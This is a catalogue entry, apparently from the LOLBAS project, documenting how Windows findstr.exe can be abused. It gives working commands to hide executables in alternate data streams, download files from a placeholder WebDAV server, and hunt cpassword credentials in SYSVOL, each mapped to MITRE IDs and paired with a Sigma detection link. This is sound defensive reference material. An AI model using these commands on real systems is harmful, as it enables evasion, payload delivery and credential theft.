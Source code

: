 ```yaml
---
Name: Findstr.exe
Description: Write to ADS, discover, or download files with Findstr.exe
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: findstr /V /L W3AllLov3LolBas c:\ADS\file.exe > c:\ADS\file.txt:file.exe
    Description: Searches for the string W3AllLov3LolBas, since it does not exist (/V) file.exe is written to an Alternate Data Stream (ADS) of the file.txt file.
    Usecase: Add a file to an alternate data stream to hide from defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: findstr /V /L W3AllLov3LolBas \\webdavserver\folder\file.exe > c:\ADS\file.txt:file.exe
    Description: Searches for the string W3AllLov3LolBas, since it does not exist (/V) file.exe is written to an Alternate Data Stream (ADS) of the file.txt file.
    Usecase: Add a file to an alternate data stream from a webdav server to hide from defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: findstr /S /I cpassword \\sysvol\policies\*.xml
    Description: Search for stored password in Group Policy files stored on SYSVOL.
    Usecase: Find credentials stored in cpassword attrbute
    Category: Credentials
    Privileges: User
    MitreID: T1552.001
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: findstr /V /L W3AllLov3LolBas \\webdavserver\folder\file.exe > c:\ADS\file.exe
    Description: Searches for the string W3AllLov3LolBas, since it does not exist (/V) file.exe is downloaded to the target file.
    Usecase: Download/Copy file from webdav server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\findstr.exe
  - Path: C:\Windows\SysWOW64\findstr.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_findstr.yml
Resources:
  - Link: https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

